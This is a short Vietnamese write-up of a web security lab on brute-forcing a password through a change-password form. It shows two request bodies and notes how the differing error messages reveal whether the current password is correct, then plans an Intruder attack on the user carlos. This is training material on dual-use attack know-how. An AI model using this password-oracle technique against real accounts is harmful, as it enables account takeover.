

# Lab: Password brute-force via password change

Thử tìm kiếm lỗ hổng ở `POST /my-account/change-password`, khi nhập:
```
username=wiener&current-password=peter&new-password-1=peter1&new-password-2=peter
```
Thì hiển thị warning `New passwords do not match`.

Khi thử với:
```
username=wiener&current-password=peter3&new-password-1=peter1&new-password-2=peter
```
Hiển thị warning `Current password is incorrect`.

Ta sẽ thử để brute-force password của user carlos với intruder. 

